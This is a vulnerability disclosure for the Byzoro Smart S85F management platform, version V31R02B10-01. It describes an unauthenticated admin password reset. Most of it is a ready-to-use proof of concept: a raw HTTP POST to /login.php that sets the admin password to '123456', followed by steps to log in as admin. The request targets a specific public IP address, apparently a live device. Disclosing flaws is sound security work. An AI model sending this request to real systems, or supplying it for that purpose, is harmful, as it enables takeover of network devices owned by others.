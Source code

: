 Byzro Networks Smart S85F management platform has a vulnerability in improper password reset

verision: Smart V31R02B10-01

Vendor:  https://www.byzoro.com/

route:/login.php

Description:

> The Beijing Baichuo Smart S85F Management Platform system under consideration contains a high vulnerability that allows unauthorized users to reset the password of the admin account. This vulnerability arises due to an insecure POST request method in the system's password reset functionality.

severity:  high 



![image-20231103120002622](reset_password_improperly.assets/image-20231103120002622.png)

POC

```
POST /login.php HTTP/1.1
Host: 60.29.117.204:8443
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

mode=findpwd&find_username=admin&txt_newpwd=123456
```

![image-20231103120107975](reset_password_improperly.assets/image-20231103120107975.png)

Acccess:

login -> https://60.29.117.204:8443/default.php  using the account 'admin' with the new password set as '123456'

![image-20231103120258538](reset_password_improperly.assets/image-20231103120258538.png)


